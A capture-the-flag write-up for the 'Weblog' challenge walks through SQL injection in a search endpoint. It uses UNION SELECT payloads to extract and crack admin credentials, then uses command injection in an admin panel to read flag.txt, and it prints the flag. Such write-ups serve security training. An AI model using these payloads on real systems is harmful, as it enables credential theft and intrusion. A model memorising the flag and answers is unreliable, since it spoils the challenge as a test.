 ## Weblog

Author: @HuskyHacks

Web-LOG? We-BLOG? Webel-OGG? No idea how this one is pronounced. It's on the web, it's a log, it's a web-log, it's a blog. Just roll with it.


![image 2](https://github.com/user-attachments/assets/306a5aae-1f5e-434d-92ca-078c2c1dab46)


![image 3](https://github.com/user-attachments/assets/80872514-903a-41b9-a191-247e80f8857d)

## **SQL Injection in `/search`**

![image 4](https://github.com/user-attachments/assets/6ac31afa-1360-4a3c-8282-fdc9e09e286f)


### **Identifying SQL Injection**

In the source code (`search.py`), the **search feature** was vulnerable to SQL injection:

```python
query = request.args.get("q", "")
raw_query = text(f"SELECT * FROM blog_posts WHERE title LIKE '%{query}%'")
posts = db.session.execute(raw_query).fetchall()
```

 **Vulnerability:**

- User input (`query`) is **directly concatenated** into the SQL query.
- No **parameterized queries** are used, making it vulnerable to SQL injection.

### **Exploiting SQL Injection**

I tested for SQL injection by searching:

```
' OR '1'='1
```

This payload modified the query to:

```sql
SELECT * FROM blog_posts WHERE title LIKE '%' OR '1'='1'
```

**Result:** It **retrieved all blog posts**, confirming SQL injection.

---

## **Extracting User Credentials**

After confirming SQL injection, I attempted to **extract user credentials** from the `users` table.

### **Finding the Correct Column Count**

When running:

```
' UNION SELECT username, password FROM users --
```

I got:

![image 5](https://github.com/user-attachments/assets/9b82a4ee-fdc3-4ea2-bd94-1562ed9fc3bb)


**Cause:** The number of columns in `blog_posts` and `users` did not match.

I used an **ORDER BY trick** to determine the correct column count:

```sql
' ORDER BY 1 --
' ORDER BY 2 --
...
' ORDER BY 6 --  (This caused an error)
```

**Conclusion:** The `blog_posts` table had **5 columns**.

### **Analyzing the Column Data Types**

I examined the `blog_posts` table structure:

```sql
sql
CopyEdit
CREATE TABLE blog_posts (
    id INT AUTO_INCREMENT PRIMARY KEY,
    title VARCHAR(255),
    content TEXT,
    author VARCHAR(255),
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);
```

From this, I determined the **expected data types**:

1. `id` (Integer - INT)
2. `title` (String - VARCHAR)
3. `content` (Text - TEXT)
4. `author` (String - VARCHAR)
5. `created_at` (Timestamp - TIMESTAMP)

---

### **SQL Injection**

I adjusted my payload to **match the expected data types**:

```sql
' UNION SELECT 1, "test", "test", "test", NOW() --
```

📌 **Breakdown of Fix:**

- `1` → **Integer (id)**
- `"test"` → **String (title)**
- `"test"` → **Text (content)**
- `"test"` → **String (author)**
- `NOW()` → **Timestamp (created_at)**

**This payload executed successfully**, confirming the correct column count and data types.


![image 6](https://github.com/user-attachments/assets/0f8c3dd9-e3c9-4bf1-85af-e119b596ee28)

---

### **Extracting User Credentials**

Now that I had a **working UNION SELECT payload**, I refined it to extract user credentials:

```sql
' UNION SELECT 1, username, password, email, "2025-01-01 00:00:00" FROM users -- 
```

**Result:** This payload successfully retrieved **admin credentials** from the `users` table.

![image 7](https://github.com/user-attachments/assets/5c1bee3a-3745-4368-bfdf-3bf2594e6b1f)

![image 8](https://github.com/user-attachments/assets/4212ac3e-67d1-4cee-a857-d7f6fee3ed88)

---

**Step 4: Cracking the Admin Password**

One of the extracted users was:

```
admin - c1b8b03c5a1b6d4dcec9a852f85cac59
```

This **looked like an MD5 hash**, so I tried **cracking it**

```
c1b8b03c5a1b6d4dcec9a852f85cac59 → no1trust
```

**Admin Credentials:**

```
Username: admin
Password: no1trust
```

I then **logged in as the admin**.

---

## **Exploiting Command Injection in Admin Panel**

![image 9](https://github.com/user-attachments/assets/4cd378d9-c6aa-4cd0-8755-84415b93c730)


After logging in, I accessed the **Admin Panel (`/admin`)**.

The `admin.py` file contained:

```python
DEFAULT_COMMAND = "echo 'Rebuilding database...' && /entrypoint.sh"

DISALLOWED_CHARS = r"[&|><$\\]"
...
if not command.startswith(DEFAULT_COMMAND):
    error_message = "Invalid command: does not start with the default operation."
elif re.search(DISALLOWED_CHARS, command[len(DEFAULT_COMMAND):]):
    error_message = "Invalid command: contains disallowed characters."
```

**Vulnerability:**

- The app **checks if commands start with** `"echo 'Rebuilding database...' && /entrypoint.sh"`.
- It **blocks** certain characters: `& | > < $ \`, but **`;` (command separator) is not blocked**.

### **Command Injection Payload**

To execute system commands, I crafted

```bash
echo 'Rebuilding database...' && /entrypoint.sh; ls -la
```

**Result:** It listed all files, revealing `flag.txt`!

---

## **Capturing the Flag**

Since I now had command execution, I used:

```bash
echo 'Rebuilding database...' && /entrypoint.sh; cat flag.txt
```

**Final Flag:**

![5bcf3558-1f72-43bd-84eb-71de9606aa09](https://github.com/user-attachments/assets/f0cf27a3-abc8-46c3-a055-a9d0804028d6)

flag{b06fbe98752ab13d0fb8414fb55940f3}
